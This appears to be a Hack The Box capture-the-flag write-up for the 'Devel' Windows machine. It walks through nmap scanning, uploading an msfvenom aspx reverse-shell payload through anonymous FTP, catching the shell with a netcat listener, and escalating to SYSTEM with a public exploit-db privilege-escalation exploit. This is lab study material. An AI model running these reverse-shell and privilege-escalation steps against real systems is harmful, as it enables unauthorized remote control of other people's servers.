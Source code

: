 Devel was more of a learning experience than the previous boxes. 

It got me reading about Windows privilege escalation, for which I found a [great post by FuzzySecurity](http://www.fuzzysecurity.com/tutorials/16.html).

Also, I'll be trying to get through boxes without Metasploit and the meterpreter shell from now on as much as possible, since the OSCP only lets you use it on one exam machine.

Starting off with `nmap -A -T4 -Pn 10.10.10.5`:

<img src="/assets/images/htb-devel/nmap.png">

We have port 21 (FTP) and port 80 open. Port 80 has HTTP web server information in its header, showing us that the machine is running Microsoft IIS7 (and visiting 10.10.10.5 in a browser pulls up the IIS7 default landing page).

Additionally, anonymous FTP login is allowed. Red flag. Checking it out reveals that we have access to the web server's working directory, which we can verify by navigating to the files in a browser. It looks like the web server loads aspx files, so let's try generating a reverse shell payload with `msfvenom`:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.95 LPORT=4444 -f aspx > shell.aspx`

And then put it in the web server directory through FTP:

<img src="/assets/images/htb-devel/ftp_put.png">

Next, `nc -nvlp 4444` to run a listener on port 4444 through netcat. 

Navigating to http://10.10.10.5/shell.aspx in the browser should pop a shell in our listening terminal.  (My progress stalled for a while here, until I realized that I was using a staged payload for the reverse shell, which netcat apparently doesn't handle well. I then switched to `windows/shell_reverse_tcp` and everything worked fine.)

<img src="/assets/images/htb-devel/whoami.png">

So we didn't get authority\system privileges. This means we need privilege escalation. Let's run `systeminfo` and find out what the machine is on:

<img src="/assets/images/htb-devel/systeminfo.png">

Also, `systeminfo` showed x86. This specific OS/build was vulnerable to [this privesc exploit](https://www.exploit-db.com/exploits/40564), which I compiled into an .exe using the instructions provided in the comments:

<img src="/assets/images/htb-devel/compile.png">

Now we can put the .exe into the web server root using FTP just like before:

<img src="/assets/images/htb-devel/ftp_put_exe.png">

Now, navigate to the web server root directory, run privesc.exe and let the exploit do its job:

<img src="/assets/images/htb-devel/privesc.png">

There's system.	Flags are in the standard directories:

<img src="/assets/images/htb-devel/flags.png">

Thanks for reading!
